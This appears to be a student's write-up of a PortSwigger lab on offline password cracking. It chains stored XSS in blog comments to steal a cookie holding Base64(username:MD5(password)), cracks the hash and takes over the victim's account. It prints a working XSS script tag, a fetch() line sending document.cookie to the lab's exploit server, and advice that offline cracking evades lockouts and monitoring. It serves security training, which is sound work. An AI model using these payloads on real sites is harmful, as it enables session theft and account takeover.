




# Lab 10 — Offline Password Cracking

## Lab Information

- **Platform:** PortSwigger Web Security Academy
- **Category:** Authentication
- **Lab:** Offline password cracking
- **Difficulty:** Practitioner
- **Vulnerability:** XSS leading to theft of a password-derived persistent authentication cookie
- **Status:** Solved

---

## Objective

The lab stores the user's password hash in a cookie and contains a Cross-Site Scripting (XSS) vulnerability in the blog comment functionality.

The objective was to:

1. Obtain Carlos's `stay-logged-in` cookie via XSS.
2. Extract Carlos's password hash from the cookie.
3. Crack the password hash offline.
4. Log in as Carlos.
5. Delete Carlos's account from the **My account** page.

Provided credentials:

```text
Username: wiener
Password: peter
```

Victim:

```text
Username: carlos
```

---

## Initial Reconnaissance

I first logged in normally as `wiener` and inspected the authentication flow in Burp Suite.

The persistent authentication cookie had the same structure observed in the previous lab:

```text
Base64(username:MD5(password))
```



I also tested the relationship between the normal session cookie and the `stay-logged-in` cookie.

For `/my-account?id=wiener`, I tested different cookie combinations and observed that the application could still return a successful account response when one of the authentication cookies was removed, while removing both resulted in:

```http
HTTP/2 302 Found
Location: /login
```

I also tested using Wiener's cookies while changing:

```text
/my-account?id=wiener
```

to:

```text
/my-account?id=carlos
```

This resulted in a redirect to `/login`, confirming that changing the account ID alone could not authenticate as Carlos.

---

## Investigating the Comment Functionality

The blog post comment functionality submitted parameters including:

```text
postId=1
comment=hi
name=wiener
email=abc@abc.com
website=https://www.abc.com
```

I tested the comment input with HTML formatting:

```html
<b>TEST</b>
```

The text was rendered in bold in the posted comment.

This confirmed that HTML was being interpreted by the browser and indicated a stored XSS vulnerability in the comment functionality.

---

## XSS and Cookie Theft Hypothesis

The objective was not simply to demonstrate XSS, but to use the XSS vulnerability to execute JavaScript in Carlos's browser and exfiltrate his persistent authentication cookie.

The relevant cookie was:

```text
stay-logged-in
```

I checked the cookie security attributes and found that the `stay-logged-in` cookie did not have the `HttpOnly` flag.

Therefore, client-side JavaScript could access it directly through:

```javascript
document.cookie
```

The attack chain was:

```text
XSS in comment
        ↓
JavaScript executes in Carlos's browser
        ↓
Read document.cookie
        ↓
Send cookie to exploit server
        ↓
Obtain Carlos's stay-logged-in cookie
        ↓
Base64 decode cookie
        ↓
Extract password hash
        ↓
Crack hash offline
        ↓
Log in as Carlos
        ↓
Delete Carlos's account
```

---

## Exploit Server Configuration

I created an exploit on the PortSwigger exploit server.

The JavaScript used to exfiltrate the accessible cookies was:

```javascript
fetch('https://exploit-0a3400dc04f9830d8191067301220029.exploit-server.net/?cookie=' + encodeURIComponent(document.cookie));
```

The exploit script was hosted on the exploit server at:

```text
/exploit
```

I then submitted a comment containing the XSS payload:

```html
<script src="https://exploit-0a3400dc04f9830d8191067301220029.exploit-server.net/exploit"></script>
```



When Carlos's browser loaded the blog post, the script executed and sent the browser's cookies to the exploit server.

---

## Obtaining Carlos's Cookie

Checking the Exploit Server **Access log** revealed the incoming exfiltration request:

```text
GET /?cookie=secret%3DJ9ifm8sfGHS4B4HFR5Ku2fiJsvZl1h2Y%3B%20stay-logged-in%3DY2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```

The relevant stolen cookie was:

```text
stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```



---

## Decoding the Cookie

The `stay-logged-in` value was Base64 encoded.

Decoding `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz` produced:

```text
carlos:26323c16d5f4dabff3bb136f2460a943
```

Therefore:

```text
Username: carlos
Password MD5 Hash: 26323c16d5f4dabff3bb136f2460a943
```

The 32-character hexadecimal string was the MD5 hash of Carlos's password.

---

## Offline Password Cracking

Unlike previous labs, this lab did not provide a candidate password list.

The password hash was cracked offline:

```text
MD5 Hash: 26323c16d5f4dabff3bb136f2460a943
Recovered Password: onceuponatime
```


Cracking the password offline eliminated the need to repeatedly submit password guesses to the application's login endpoint, thereby avoiding any online authentication protections, lockout counters, or rate limiting.

---

## Authentication and Account Deletion

With the discovered credentials:

```text
Username: carlos
Password: onceuponatime
```

I logged into the application as Carlos via `/login`.

From Carlos's **My account** page, I clicked **Delete account** as required by the lab objective.

The account was deleted, and the lab was marked as solved.



---

## Attack Flow

```text
Normal authentication reconnaissance
        ↓
Identify stay-logged-in cookie structure
        ↓
Confirm cookie lacks HttpOnly flag
        ↓
Identify stored XSS in comment functionality
        ↓
Create exploit server exfiltration script
        ↓
Inject script payload via comment
        ↓
Carlos views the comment page
        ↓
Carlos's browser executes JavaScript
        ↓
document.cookie sent to exploit server
        ↓
Retrieve Carlos's stay-logged-in cookie
        ↓
Base64 decode cookie
        ↓
Extract Carlos's MD5 password hash
        ↓
Perform offline password cracking
        ↓
Recover plaintext password: onceuponatime
        ↓
Log in as Carlos
        ↓
Delete Carlos's account
        ↓
Lab solved
```

---

## Vulnerability

The lab combines two distinct weaknesses into a full account takeover chain:

1. **Cross-Site Scripting (XSS):**
   The comment functionality failed to sanitize user input, allowing attacker-controlled JavaScript to execute in other users' browsers.

2. **Weak Persistent Authentication Token & Missing `HttpOnly`:**
   The `stay-logged-in` cookie contained a predictable, password-derived value:

   ```text
   Base64(username:MD5(password))
   ```

   Because the cookie lacked the `HttpOnly` flag, JavaScript could access `document.cookie` directly. The reversible Base64 wrapper exposed the user's password hash, which was vulnerable to offline cracking.

---

## Methodology Lessons

### Characterize authentication cookies thoroughly

Do not automatically assume a persistent authentication cookie is an opaque, random token. Inspect:

* Encoding (e.g., Base64, Hex)
* Length and structure
* Security attributes (`HttpOnly`, `Secure`, `SameSite`)
* Behavior across multiple logins

### Check cookie security attributes

The absence of the `HttpOnly` flag was critical because it allowed JavaScript (`document.cookie`) to read the persistent authentication token.

### Chain vulnerabilities together

The XSS vulnerability by itself was not the final objective; it served as the delivery mechanism to steal authentication credentials. Combining XSS with weak cookie generation and offline password cracking enabled full account takeover and account deletion.

### Prefer offline attacks when hashes are exposed

Once a password hash is extracted, offline cracking is vastly superior to online brute-forcing because it bypasses:

* Account lockout mechanisms
* IP-based rate limiting
* Web Application Firewall (WAF) rules
* Online monitoring and alerts

### Encoding is not encryption

Base64 is a two-way encoding format that provides zero confidentiality. MD5 is an unsalted cryptographic hash function, not encryption. Incorporating an unsalted MD5 hash into a client-accessible cookie allows attackers to reverse-engineer user passwords.

---

## Key Takeaways

1. Persistent authentication cookies must be cryptographically secure, high-entropy, and unpredictable.
2. The `HttpOnly` attribute is essential for preventing client-side scripts from accessing sensitive authentication tokens.
3. Passwords and unsalted password hashes should never be stored in client-side cookies.
4. XSS vulnerabilities can lead directly to account compromise when combined with accessible session tokens.
5. Offline password cracking is faster, stealthier, and unaffected by server-side rate-limiting defenses.
6. Always verify the full exploit chain from reconnaissance through exploitation and final verification.

---

## Credentials Discovered

```text
Username: carlos
Password: onceuponatime
```

---

## Final Result

Successfully exploited the stored XSS vulnerability to exfiltrate Carlos's `stay-logged-in` cookie, Base64-decoded the cookie to extract the MD5 password hash, cracked the hash offline to retrieve `onceuponatime`, authenticated as Carlos, deleted the account, and completed the PortSwigger lab.
